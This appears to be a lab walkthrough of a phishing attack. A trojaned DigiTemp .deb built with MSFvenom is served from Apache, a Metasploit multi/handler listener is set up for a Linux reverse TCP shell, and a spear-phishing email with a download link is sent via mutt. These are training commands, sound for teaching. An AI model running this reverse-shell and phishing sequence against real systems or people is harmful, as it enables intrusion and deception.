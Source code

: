 Real-life examples show that even the strongest technical security controls can be easily compromised by exploiting the weakest link: people. Actions like inserting an unauthorized USB drive into a workstation (as seen with Stuxnet) or opening a suspicious email attachment (as in the case of BlackEnergy) can provide attackers with the entry point they need to breach system infrastructure.

A malicious installer has been created using DigiTemp, a utility for reading values (mainly temperature) from 1-wire devices. A Trojan backdoor has been inserted into it using _MSFvenom_, a payload builder within the _Metasploit Framework_.

Note that the program itself is not inherently vulnerable.

To make the malicious package available for download via a web browser, it has been placed in the Apache server's webroot folder _/var/www/html_.

To start the Apache server, run the following command:
`service apache2 start`
# Starting Metasploit Framework

_MSFconsole_ is a command-line interface for the Metasploit Framework, an open-source security framework for penetration testing and vulnerability assessment. The Metasploit Framework is a collection of tools, modules, and libraries that can be used to test the security of systems and applications, and MSFconsole is one of the key components of the framework.

We will be setting up a listener to wait for incoming connections using a Metasploit exploit module.
To initiate Metasploit, enter the following command:
`msfconsole`
### Selecting Module

_The Generic Payload Handler_ provides all of the features of the Metasploit payload system to exploits launched outside of the framework.
To select the handler module, use the following command:
`use exploit/multi/handler`

To display the options for the handler module, use the following command:
`options`

Two settings are listed, of which both are required. Note that only LHOST is empty.
Configure the module to listen on the localhost IP:
`set LHOST 127.0.0.1`

Specify a new port number for the listener:
`set LPORT 443`

Specify the payload that must be sent to the target once they connect to the listener. Select the reverse TCP command shell payload as follows:
`set PAYLOAD linux/x86/shell/reverse_tcp`

Start the listener by entering the exploit.
`exploit`
# Sending Phishing Email

For this attack, it is necessary to send a spear-phishing email that contains a download link.

Open a new terminal to send a phishing email.

_Postfix_ is a widely used _Mail Transfer Agent (MTA)_ on Linux systems. It is a powerful and dependable mail server capable of handling large volumes of email traffic. However, to utilize Postfix to send and receive emails, the Postfix server must be running on the system.
`service postfix start`

Once enabled, the Postfix service listens on the SMTP port (port 25) and is ready to receive incoming email messages.

To send an invitation to download a utility from a website, run the following command:
`echo "This utility is very useful. Download from <a href="http://192.168.1.100/digitemp.deb">here</a>." | mutt ‑e "set content_type=text/html" ‑s "Digitemp Download" ‑‑ root@192.168.1.100`

The -e option is used to set the content type of the email to HTML.
The -s option is used to set the subject of the email.
### Checking Email

_Mutt_ is a command-line email client for Unix-based systems, designed for terminal/console environments. It supports various email protocols, including POP3, IMAP, and SMTP.

Mutt allows users to manage their email entirely from the command line, with a built-in editor for composing messages and features for filtering, sorting, and searching emails based on multiple criteria.

To read the email using Mutt, enter the following command:
`mutt`

When prompted, press _enter_ to create the _/root/Mail_ directory.

